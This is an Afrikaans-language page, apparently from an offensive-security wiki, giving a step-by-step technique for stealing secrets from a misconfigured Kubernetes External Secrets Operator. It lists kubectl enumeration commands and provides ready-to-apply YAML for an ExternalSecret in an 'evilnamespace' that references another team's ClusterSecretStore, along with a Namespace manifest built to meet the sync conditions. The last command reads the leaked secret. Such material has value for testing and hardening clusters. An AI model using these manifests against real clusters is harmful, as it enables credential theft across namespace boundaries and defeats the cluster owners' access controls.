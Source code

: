 # External Secret Operator

**Die oorspronklike skrywer van hierdie bladsy is** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Hierdie bladsy gee 'n paar wenke oor hoe jy kan steel van geheime uit 'n verkeerd geconfigureerde ESO of toepassing wat ESO gebruik om sy geheime te sinkroniseer.

## Disclaimer

Die tegniek wat hieronder getoon word, kan slegs werk wanneer sekere omstandighede nagekom word. Byvoorbeeld, dit hang af van die vereistes wat nodig is om 'n geheim te laat sinkroniseer op 'n naamruimte wat jy besit / gecompromitteer het. Jy moet dit self uitfigure.

## Prerequisites

1. 'n Voet in 'n kubernetes / openshift-kluster met admin regte op 'n naamruimte
2. Lees toegang op ten minste ExternalSecret op kluster vlak
3. Figurer uit of daar enige vereiste etikette / annotasies of groepslidmaatskap nodig is wat ESO toelaat om jou geheim te sinkroniseer. As jy gelukkig is, kan jy enige gedefinieerde geheim vryelik steel.

### Gathering information about existing ClusterSecretStore

Aneem dat jy 'n gebruiker het wat genoeg regte het om hierdie hulpbron te lees; begin eers deur bestaande _**ClusterSecretStores**_ op te lys.
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret enumerasie

Kom ons neem aan jy het 'n ClusterSecretStore met die naam _**mystore**_ gevind. Gaan voort deur sy geassosieerde externalsecret te enumerate.
```sh
kubectl get externalsecret -A | grep mystore
```
_Hierdie hulpbron is naamruimte-geskepte, so tensy jy reeds weet watter naamruimte om te soek, voeg die -A opsie by om oor alle naamruimtes te kyk._

Jy behoort 'n lys van gedefinieerde externalsecret te kry. Kom ons neem aan jy het 'n externalsecret objek genaamd _**mysecret**_ gevind wat gedefinieer en gebruik word deur naamruimte _**mynamespace**_. Versamel 'n bietjie meer inligting oor watter soort geheim dit hou.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Assembling the pieces

Van hier af kan jy die naam van een of meer geheime name kry (soos gedefinieer in die Secret hulpbron). Jy sal 'n uitvoer kry wat soortgelyk is aan:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
So ver het ons:

- Naam 'n ClusterSecretStore
- Naam van 'n ExternalSecret
- Naam van die geheim

Nou dat ons alles het wat ons nodig het, kan jy 'n ExternalSecret skep (en uiteindelik 'n nuwe Namespace patch/create om te voldoen aan die vereistes wat nodig is om jou nuwe geheim gesinkroniseer te kry):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Na 'n paar minute, as sink toestande nagekom is, behoort jy die gelekte geheim binne jou naamruimte te kan sien.
```sh
kubectl get secret leaked_secret -o yaml
```
## Verwysings

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}
